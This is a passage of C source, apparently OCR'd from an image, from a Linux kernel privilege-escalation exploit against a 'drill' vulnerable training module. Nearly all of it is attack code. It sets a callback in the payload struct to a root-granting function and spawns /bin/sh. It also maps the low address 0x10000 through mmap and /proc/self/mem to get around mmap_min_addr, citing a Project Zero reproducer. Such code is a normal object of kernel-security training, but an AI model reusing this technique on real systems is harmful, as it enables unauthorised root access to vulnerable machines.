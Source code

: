         pid = fork();

        if (pid < 0) {
            perror("[-] fork()");
            return;
        }

        if (pid == 0) {
            execve("/bin/sh", args, NULL); /* Should not return */
            perror("[-] execve");
            exit(EXIT_FAILURE);
        }

        if (wait(&status) < 0)
            perror("[-] wait");
    }

    void init_payload(void *p)
    {
        struct drill_item_t *item = (struct drill_item_t *)p;

        item->callback = (uint64_t)root_it;

        printf("[+] payload:\n");
        printf("\tstart at %p\n", p);
        printf("\tcallback %lx\n", item->callback);
    }

    int act(int fd, char code)
    {
        ssize_t bytes = 0;

        bytes = write(fd, &code, 1);
        if (bytes <= 0) {
            perror("[-] write");
            return EXIT_FAILURE;
        }

        return EXIT_SUCCESS;
    }

    int main(void)
    {
        int ret = EXIT_FAILURE;
        void *map = NULL;
        int mem_fd = -1;
        char cmd[1000];
        unsigned long addr = 0;
        int drill_fd = -1;

        printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());

        // MDL: copy the reproducer from the blog below to map zero address
        // MDL: https://bugs.chromium.org/p/project-zero/issues/detail?id=1792&desc=2
        map = mmap((void*)0x10000, 0x1000, PROT_READ | PROT_WRITE,
            MAP_PRIVATE | MAP_ANONYMOUS | MAP_GROWSDOWN | MAP_FIXED, -1, 0);
        if (map == MAP_FAILED) {
            perror("[-] mmap");
            goto end;
        }
        mem_fd = open("/proc/self/mem", O_RDWR);
        if (mem_fd < 0) {
            perror("[-] open /proc/self/mem");
            goto end;
        }
